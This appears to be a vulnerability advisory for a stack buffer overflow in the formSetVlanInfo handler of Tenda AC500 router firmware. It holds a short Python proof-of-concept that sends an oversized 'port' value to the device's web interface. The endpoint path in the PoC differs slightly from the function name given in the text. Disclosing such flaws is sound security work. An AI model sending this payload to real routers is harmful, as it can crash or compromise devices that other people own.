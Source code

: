 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `formSetVlanInfo` function. The `src` variable receives the `port` parameter from a POST request and is later assigned to the `dest` variable, which is fixed at 256 bytes. However, since the user can control the input of `port`, the statement `strcpy(dest, src);` can cause a buffer overflow. The user-provided `port` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410155355406.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410155334117.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/forSetVlanInfo"
payload = b"a"*1000

data = {"action":"add","port": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410095430899.png)

